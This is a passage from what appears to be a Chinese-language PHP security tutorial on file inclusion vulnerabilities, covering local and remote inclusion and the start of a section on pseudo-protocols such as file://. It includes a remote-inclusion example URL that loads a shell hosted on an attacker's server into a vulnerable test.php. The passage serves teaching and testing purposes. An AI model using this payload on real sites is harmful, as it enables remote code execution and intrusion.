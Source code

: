 #### fopen

```scss
fopen()
 
打开一个文件或者 url
```

这里就是文件包含常见的函数

这里我们再给出分类

### 文件包含漏洞的分类

#### 本地文件包含

被包含的文件在本地服务器中 那么就是本地文件包含

### 远程文件包含

在

php.ini中的 all_url_fopen和include 打开的话 就会远程文件包含



<img src="https://i-blog.csdnimg.cn/blog_migrate/7fe7874158d77f54423b9a00edfdd5cd.png" alt="" style="max-height:162px; box-sizing:content-box;" />


远程文件包含就是

```cobol
两个服务器
一个是本地服务器
一个是攻击者的
 
 
攻击者的web 根目录中写入 shell
那么
 
 
127.0.0.1/test.php?file=服务器的id/shell
 
 
这样就可以访问到shell 
```

接下来我们解释 伪协议

## 伪协议

首先给出常见的 伪协议

### file://  协议

```cobol
file://[文件的绝对路径和文件名]
访问本地文件
```
